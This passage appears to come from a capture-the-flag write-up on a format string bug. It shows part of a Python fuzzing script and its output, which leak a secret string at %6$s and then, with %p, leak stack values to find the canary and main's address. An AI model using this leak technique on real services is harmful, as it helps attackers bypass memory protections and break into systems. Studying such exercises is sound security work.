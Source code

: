 ```python
        result = p.recv().split(b' ')
        result = result[1].split(b',')
        leak_char = result[0].ljust(8,b"\x00")
        print(str(i) + ': ' + str(leak_char).strip())
        p.close()
    except EOFError:
        pass

```

we can get the secret message
```bash
$ python fuzz.py 
1: b'Hi\x00\x00\x00\x00\x00\x00'
2: b'(null)\x00\x00'
3: b'(null)\x00\x00'
4: b'\x00\x00\x00\x00\x00\x00\x00\x00'
5: b'\x8b\x00\x00\x00\x00\x00\x00\x00'
6: b'YOKO\x00\x00\x00\x00'
7: b'(null)\x00\x00'
8: b'(null)\x00\x00'
9: b'\x00\x00\x00\x00\x00\x00\x00\x00'
10: b'\x00\x00\x00\x00\x00\x00\x00\x00'
11: b'(null)\x00\x00'
12: b'(null)\x00\x00'
13: b'\x00\x00\x00\x00\x00\x00\x00\x00'
14: b'\x00\x00\x00\x00\x00\x00\x00\x00'
15: b'\x89\xc7\xe8\x9fs\x01\x00\x00'
16: b'(null)\x00\x00'
17: b'\xf3\x0f\x1e\xfaUH\x89\xe5H\x83\xec@dH\x8b\x04%('
18: b'\x00\x00\x00\x00\x00\x00\x00\x00'
19: b'\x80\x11\xa1j\xfe\x7f\x00\x00'
20: b'\x80\x01k\xcc\xfe\x7f\x00\x00'
21: b'\x00\x00\x00\x00\x00\x00\x00\x00'
22: b'(null)\x00\x00'
23: b'\xc5\x11\xd6\xb9\xff\x7f\x00\x00'
24: b'\x80\xa2\x1a\xd5jU\x00\x00'
```
its on %6$s

changing from %s to %p we can try to find the canary values and main address

```python
$ python fuzz.py 
1: b'0x7ffc4a4aa570'
2: b'(nil)\x00\x00\x00'
3: b'(nil)\x00\x00\x00'
4: b'0x4\x00\x00\x00\x00\x00'
5: b'0x7f01191c0aa0'
6: b'0x7ffc7ecb1fae'
7: b'(nil)\x00\x00\x00'
8: b'(nil)\x00\x00\x00'
9: b'0x2439250000000000'
10: b'0x7024\x00\x00'
11: b'(nil)\x00\x00\x00'
12: b'(nil)\x00\x00\x00'
13: b'0xce7df4b5024c6b00'
14: b'0x1\x00\x00\x00\x00\x00'
15: b'0x7fc39c62a6ca'
16: b'(nil)\x00\x00\x00'
17: b'0x55817ada0374'
18: b'0x100000000'
19: b'0x7ffeb3a272a8'
20: b'0x7ffe4b955088'
21: b'0x4ecced99680d75cf'
```